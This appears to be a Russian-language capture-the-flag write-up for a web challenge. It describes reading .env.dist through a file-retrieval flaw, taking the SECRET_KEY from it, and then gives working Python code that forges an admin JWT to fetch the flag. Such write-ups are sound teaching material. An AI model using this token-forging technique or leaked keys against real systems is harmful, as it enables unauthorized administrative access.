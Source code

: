 #hard #web #JWT #FS

#### Исходники

- Архив с исходниками сайта:  [brethren.tar.gz](./assets/brethren.tar.gz)

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](./assets/image-9.webp)

![](./assets/image-10.webp)


![](./assets/image-2.webp)

![](./assets/image-3.webp)

![](./assets/image-4.webp)

![](./assets/image-5.webp)

![](./assets/image-6.webp)

![](./assets/image-7.webp)

![](./assets/image-8.webp)


